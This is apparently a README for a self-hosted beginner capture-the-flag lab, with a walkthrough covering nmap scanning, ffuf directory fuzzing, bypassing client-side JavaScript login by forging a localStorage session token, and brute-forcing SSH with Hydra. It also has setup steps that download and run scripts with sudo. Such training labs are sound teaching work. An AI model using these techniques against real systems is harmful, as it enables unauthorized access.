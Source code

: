 # ctf
Beginner level Capture the Flag (user and root flag included)

<h2>On your VM that will be running the CTF, run the following commands:</h2>

```
wget https://raw.githubusercontent.com/npmaharaj1/ctf/main/ctf_build.sh
chmod u+x ctf_build.sh
sudo ./ctf_build.sh
```

<h2>On your host machine or VM (whatever you are going to be hacking the CTF with), run the following commands:</h2>

```
wget https://raw.githubusercontent.com/npmaharaj1/ctf/main/attack_build.sh
chmod u+x attack_build.sh
sudo ./attack_build.sh
```
<h2>Walkthrough</h2>
Note that the <i>{ip address}</i> signifies the ip address of the server, please don't include the {}. <br>
<br>
To startup off this CTF, we are given an ip address. In cybersecurity, IP Addresses can lead to a veriety of exploits such as open ports or unmaintained programs. To start off we can do some basic enumeration to check for open ports. This will use nmap (network mapper) to scan the top 1000 ports of the ip address and print out all the information into the file scan.initial.

```
nmap -A {ip address} -oN scan.initial
```

When looking at the results, we can see that there are open ports, namely:
- 22: for OpenSSH
- 80: for an Apache2 web server (it also seems to be a test page based on the child results)

Let's open our browser and navigate to that ip address to have a look
```
http://{ip address}:80
```

Like the results said, it seems to be a test page
Apache test pages aren't normally hackable since it's just a webpage, but what if there are other directories in the webserver. We can find out using a tool called FFUF. The following command will tell fuff to look at the website and use a wordlist to look at each instance. Let's run: 
```
ffuf -u http://{ip address}:80/FUZZ -w common.txt
```

Looking at the results there seems to be an admin page and the test page we just saw: `index.html`. Let's have a look at the admin page
```
http://{ip address}:80/admin
``` 

Of course, modern admin pages have a login form and to break it we need to know the password. However, what if we use inspect element to look at the underlying code. There is a possability that we fill find client side authentication.
```
ctrl + shift + I and head over to the debugger tab
```

If we expand admin/login, there's a login.js file! Let's see what's in there.

We were correct, there is client side authentication because of the:
```
    if (username == "admin" && password == "bbb2c5e63d2ef893106fdd0d797aa97a") {
        localStorage.setItem("sessionToken", "a1fa59e79bba1a38bb0684d3298c9ddd");
        window.location.replace("../../admin");
    } else {
        incorrectPassword.style.display = "block";
    }
```

Now, putting in the password is reasonable but it is more fun to put our own session token. To do this we need to open the Storage tab in the inspect element menu and go to the local storage tab. We then press the menu that has an ip address. On chromium and firefox based browsers, there should be a plus button on the top right of the menu. If we tap that we can enter our own local storage values.

Let's enter in the data so it looks like this
```
________________________________________________________
|     Key      |                 Value                  |
|--------------|----------------------------------------|
| sessionToken |   a1fa59e79bba1a38bb0684d3298c9ddd     |
|______________|________________________________________|
```

When we refresh the page, we should be taken to the admin page:
which we will find a message probably from a system admin.
He says that a username on the server is `stevenirate` and that the password is in rockyou.txt

If we look back to our nmap scan we can see that there is port 22 that allows the ssh protocol. Therefore, what if we try to login to the server, using `stevenirate` as the username and attempt to brute force the password?

For this, Hydra appears to be the best solution.
Hydra is a tool that specialises in brute forcing and ssh is one of it's specialties.

Open up the terminal and enter the following command. 
```
hydra -l stevenirate -P ./passwd_list.txt {ip address} ssh -I
```
where:
- `hydra` is the command we're using
- `-l` specifies that we are entering the login
    - `stevenirate` is the username we are supplying
- `-P` specifies that we are entering a text file full of possible passwords (the modified rockyou.txt)
    - `./passwd_list.txt` is the modified rockyou.txt file that we are inputing
- `{ip address}` is where we are entering the ip address of the server
- `ssh` tells hydra that we want to attack an ssh protocol port
- `-I` means that we don't want to resume a previous task

After some time we should we some green text telling us the credentials
`[22][ssh] host: {ip address}    login: stevenirate     password: georgia`
Now that we have the username and password of the machine, let's try these credentials
By entering the following command, we can see if we can gain access
```
ssh stevenirate@{ip address}
yes
georgia
```
We will be greeted by an ubuntu message.
If we have a look at our current working directory
```
ls
```
There is a flag called `flag.txt`
Let's have a look in it.
```
cat flag.txt
```
and there is our flag.

<h2>Congratulations. You win</h2>

